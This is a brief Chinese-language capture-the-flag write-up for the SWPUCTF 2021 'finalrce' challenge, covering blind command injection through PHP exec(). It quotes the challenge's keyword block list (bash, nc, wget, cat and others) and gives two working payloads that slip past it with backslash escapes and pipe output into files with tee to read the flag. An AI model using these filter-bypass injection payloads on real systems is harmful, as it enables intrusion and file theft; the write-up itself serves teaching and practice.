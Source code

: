 # 【SWPUCTF 2021 新生赛】finalrce


# [SWPUCTF 2021 新生赛]finalrce

## 思路
* 主要问题：
  1. 过滤很多关键字，但是反斜杠未被过滤，使用转义符进行绕过
  
     ```
     preg_match(&#39;/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\&#34;|\&gt;|\&lt;|\%|\$/i&#39;,$url)
     ```
  
  1.  使用exec($url);执行命令，不能直接回显，需要管道符&#43;tee重定向写入文件进行回显查看

## EXP
`?url=ls /|tee 1.txt	# 得到目录`

`?url=ca\t /flllll\aaaaaaggggggg|tee 2.txt; 	# 得到flag`

## 总结
* 考察无回显RCE
* WAF绕过

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-swpuctf-2021-%E6%96%B0%E7%94%9F%E8%B5%9Bfinalrce/  

